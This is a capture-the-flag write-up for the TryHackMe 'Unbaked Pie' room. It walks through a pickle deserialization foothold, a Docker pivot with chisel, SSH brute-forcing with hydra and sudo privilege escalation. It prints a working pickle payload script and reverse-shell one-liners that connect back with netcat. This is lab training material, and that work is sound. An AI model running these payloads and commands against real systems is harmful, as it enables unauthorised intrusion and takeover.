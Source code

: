 # Unbaked Pie

https://tryhackme.com/room/unbakedpie

A fun room, with a pickle deserialization vector, internal pivot, and several python vulnerabilities. This room was somewhat special for me because I tried it several times over the last year, each time finding it slightly beyond my capabilities. Specifically the pivot, which I only really mastered (enough to do it casually) after the [Wreath](https://www.tryhackme.com/room/wreath) network.

## Foothold

Enumeration revealed a single port, 5003. On that port was a website talking about pies and pickles, nice puns around python and the pickle serialization library. Sure enough, the search functionality would set a cookie with a pickle value.

Exploiting this is a bit tricky, mainly because the website didn't respond to malformed cookies (it instead would crash generally if the search page is accessed via a GET). This defelected me for a bit, trying to find the right place where the cookie value was read. However, in actuality the value IS read on the GET /search, it just crashes anyway, so replacing the cookie and requesting this page is the entry point.

The second issue was that the standard `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.0.7 4444 >/tmp/f` would fail, but I eventually discovered that plain `nc -e /bin/bash` worked. Always worth testing, even if this is rare.

So, finally, the python3 script I used to generate a new cookie value was:

```python3
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('nc -e /bin/bash 10.10.101.125 4444')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

## Docker escape

After getting a shell, I was root in a docker container running at 172.17.0.2, confirmed via `ip a` and `hostname -i`. Exploring, I found /root/.bash_history hadn't been cleared, and in there, there were references to ssh'ing into ramsey@172.17.0.1, but also to ssh being removed from the box which I confirmed.

So this was the pivot - I needed to get 172.17.0.1:22 accessible from my attack box. To do this I used chisel: https://github.com/jpillora/chisel.

On the attack box I started a server with `client server -p 1337 --reverse &`, while on the docker container after downloading chisel to it via wget, I used `chisel client 10.10.101.125:1337 R:2222:172.17.0.1:22 &`. This opened, on the attack box, `127.0.0.1:2222` pointing at the internal machine.

Next, with ramsey as the user, I cracked the password using hydra: `hydra -l ramsey -P rockyou.txt 127.0.0.1 -s 2222 -t 4 ssh`, which got the password pretty quickly. I was then able to ssh in via `ssh -p 2222 ramsey@127.0.0.1`.

## Ramsey to Oliver

The user flag was in ramsey's folder. Running sudo -l revealed `(oliver) /usr/bin/python /home/ramsey/vuln.py`. 

Opening vuln.py, it was interesting: aside from a basic calculator, it could also use pytesseract to parse the text from an image (payload.png, in ramsey's folder) and pass the result to be evaluated.

I experimented with creating my own image: a white box with black text that would spawn a python shell. However I couldn't get tesseract to parse this correctly, after several attempts. Ultimately, it was unecessary: whether intended or not, vuln.py was in ramsey's folder and deletable, so I removed it and replaced it with a file containing `import pty; pty.spawn('/bin/bash')`. This gave me an oliver shell.

## Oliver to Root

sudo -l as oliver revealed `(root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py`.

The setenv flag is a giveaway here: it allows me to set PYTHONPATH when running sudo, which meant if `dockerScript.py` contained any import statements, I could easily escalate to root. Sure enough, `import docker` meant I just put `import pty; pty.spawn('/bin/bash')` into docker.py, and then ran `sudo PYTHONENV=/home/oliver/ /usr/bin/python /opt/dockerScript.py` to get an instant root shell.

The final flag was in /root as normal :)

Th
